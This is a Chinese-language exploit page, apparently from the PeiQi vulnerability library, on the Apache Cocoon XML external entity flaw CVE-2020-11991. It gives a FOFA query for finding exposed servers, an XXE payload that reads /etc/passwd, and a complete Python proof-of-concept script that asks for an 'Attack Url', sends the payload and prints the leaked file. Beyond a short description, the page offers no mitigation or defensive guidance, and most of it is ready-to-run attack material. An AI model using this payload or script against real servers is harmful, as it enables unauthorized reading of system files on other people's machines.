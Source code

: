 ```yaml
---
title: Apache Cocoon XML注入 CVE-2020-11991
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache Cocoon XML注入 CVE-2020-11991

## 漏洞描述

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

## 影响版本

> [!NOTE]
>
> Apache Cocoon <= 2.1.12

## FOFA

> [!NOTE]
>
> app="Apache-Cocoon"

## 漏洞复现

向**/v2/api/product/manger/getInfo**  POST如下内容

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Cocoon <= 2.1.12                                  \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-11991                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/v2/api/product/manger/getInfo"
    data = """
        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
        <userInfo>
        <firstName>John</firstName> 
        <lastName>&ent;</lastName>
        </userInfo>
    """
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-type": "text/xml"
    }

    response = requests.request("POST", url=vuln_url, data=data, headers=headers, timeout=20)
    if "/bin/bash" in response.text:
        print("\033[32m[o] 含有CVE-2020-11991漏洞，响应为{}\033[0m".format(response.text))
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

